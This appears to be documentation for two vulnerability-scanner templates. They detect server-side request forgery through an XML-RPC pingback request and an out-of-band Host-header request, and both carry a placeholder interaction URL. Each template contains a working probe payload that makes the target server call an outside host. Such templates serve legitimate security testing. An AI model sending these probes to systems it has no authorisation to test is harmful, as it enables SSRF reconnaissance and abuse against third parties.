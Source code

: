 - severity - high
- tags - xmlrpc,hackerone,ssrf,generic

## Requests

### Step - 1

```
POST /xmlrpc/pingback HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value>http://{{interactsh-url}}</value>
</param>
</params>
</methodCall>

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# OOB Request Based Interaction

## Description

- The remote server fetched a spoofed DNS Name from the request.
- severity - info
- tags - oast,ssrf,generic

## Requests

### Step - 1

```
GET / HTTP/1.1
Host: {{interactsh-url}}
Cache-Control: no-transform
Accept: */*


```
